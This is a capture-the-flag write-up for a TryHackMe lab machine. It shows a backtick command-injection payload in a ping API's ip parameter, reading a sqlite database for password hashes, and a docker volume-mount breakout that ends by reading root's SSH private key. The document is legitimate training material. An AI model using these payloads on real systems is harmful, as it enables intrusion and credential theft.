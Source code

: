 # Ultratech

[TryHackMe room link](https://tryhackme.com/room/ultratech1)

# Informations about the room

> You have been contracted by UltraTech to pentest their infrastructure. It is a grey-box kind of assessment, the only information you have is the company's name and their server's IP address.

# Open ports
21/tcp    open  ftp     syn-ack vsftpd 3.0.3

22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

8081/tcp  open  http    syn-ack Node.js Express framework

31331/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))

# Enumeration 

Gobuster finds a js file in `http://10.10.91.156:31331/js/api.js` that explains the usage of a API at port 8081

```javascript
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

This API uses the native ping binary to ping XD a host supplied in the url

We can achieve a sort of command injection by adding a backtick before the command that you want to execute and at the end

This is the request made with burpsuite:
```console
GET /ping?ip=`id` HTTP/1.1
 Host: 10.10.91.156:8081
 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Connection: close
 Upgrade-Insecure-Requests: 1
 If-None-Match: W/"105-8X9gjnZDRa4onQCfgq8xavlixLo"
```

This is the response:

```console
HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Content-Length: 61
ETag: W/"3d-2J2mX1i3I4uQhsVi8ABaq24IgPw"
Date: Tue, 28 Mar 2023 13:18:15 GMT
Connection: close

ping: groups=1002(www): Temporary failure in name resolution
```

By running the `ls` command we can spot a utech.db.sqlite database

We can cat it and get the hashed passwords of two users

`r00t` and `admin`

# Privilege escalation

After logging in with ssh

We find ourselves in a docker container 

We can enumerate docker images by running `docker images`
```
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE                                                                                       
bash                latest              495d6437fc1e        4 years ago         15.8MB 
```

To break out of the container we will use the mounted volume from the host:

`docker run --rm -it -v /:/host bash bash`

[HackTricks explanation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#arbitrary-mounts)

```console
bash-5.0# id                                                                                                                                                               
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
bash-5.0# cd host
bash-5.0# ls
bin             etc             initrd.img.old  lost+found      opt             run             srv             tmp             vmlinuz
boot            home            lib             media           proc            sbin            swap.img        usr             vmlinuz.old
dev             initrd.img      lib64           mnt             root            snap            sys             var
bash-5.0# cd root
bash-5.0# cd .ssh/
bash-5.0# ls
authorized_keys  id_rsa           id_rsa.pub
bash-5.0# cat id_rsa
```
